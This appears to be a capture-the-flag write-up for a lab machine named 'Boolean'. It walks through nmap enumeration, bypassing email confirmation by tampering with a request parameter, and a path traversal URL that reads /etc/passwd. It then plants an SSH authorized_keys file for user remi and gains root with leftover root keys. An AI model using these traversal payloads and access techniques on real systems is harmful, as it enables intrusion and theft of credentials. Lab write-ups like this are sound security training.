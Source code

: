 #Pwned #PathTraversal #SSH
```IP
192.168.180.231
```
# Enumeration
## Nmap

As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.180.231 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE  SERVICE REASON         VERSION
22/tcp    open   ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)            
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBCcfKYKMXuTWeyLKlFNHgmebcXbFAjSpbr39R8GFHYRmc/mZXKNgEoa5gkFAVr8kVVul4X6//DcnRuHtrCpHcnTIZLT9g1DPB09VsLzsjT0TpmqkcDYtZazo1mjnBZdaM+AxoDMghZd8AXiNrCl7jCN+vRjUQc8T1wD4PoC02XjeCAI8Yha++Mv9ZrSPZ+/gBv
gZPL3pdQhVGUSUHOmXod4xcdm5ReNiZRNZklOhhscbGfSCqQIdJogegZfMrlueeG3EY7Kkf5CxAUDH/9ir2dEDDifIpqKV8W7ncKEpsZiqgDh36OdMX4LPJ0NmZiT/g8CvINx7k4HWj3ksT+5C7
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)           
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEK0B9iLJQztyEpGiNffHgQuGcxZRO/BOi+r0j/P8Hkz02pIWW2hFrArbzehUNQ46ZmFwMhxxmrIOLBpUt9ZGBw=
|   256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)         
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOAlO2qlRhyMwzzf3xAK4wOGz1UD5t9+QQO5J3QjTkaZ
80/tcp    open   http    syn-ack ttl 61                
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-title: Boolean                       
|_Requested resource was http://192.168.180.231/login
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| fingerprint-strings:                 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, Termin
alServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|_    Content-Length: 0
3000/tcp  closed ppp     reset ttl 61
33017/tcp open   http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
```
## HTTP 80
When navigating to the target IP it redirects us to a login page. It seems like in order to register a new user we need email confirmation.

## HTTP 33017
In development. It does not seem to contain anything interesting. We can however get the apache version with whatweb:
```
whatweb http://192.168.180.231:33017
```
Apache 2.4.38
# Exploitation
By intercepting the email confirmation request with BurpUsite and sending it to the repeater, we can alter the parameter confirmed=True.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120115231.png?raw=true)

Now it is possible to click on "Boolean" on the register page and we are logged in.
## LFI
We are presented with a File Manager webpage. We can actually exploit a path traversal vulnerability in order to download the /etc/passwd file:
```
http://192.168.180.231/?cwd=../../../../../etc/&file=passwd&download=true
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120122332.png?raw=true)

We now know that there is a user named remi. We can path traversal to remi ssh directory as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133539.png?raw=true)

And upload here a public key named authorized_keys created with the following command:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133620.png?raw=true)

And now we can access to the machine as remi using the created id_rsa file:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133518.png?raw=true)

# PrivEsc

## Manual

Upon a more close examination, we notice we have root keys in .ssh/keys/root directory.
```
ssh root@127.0.0.1 -i .ssh/keys/root
```

So just by ssh as root user with this keys we log in as root.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120173339.png?raw=true)

Pwned!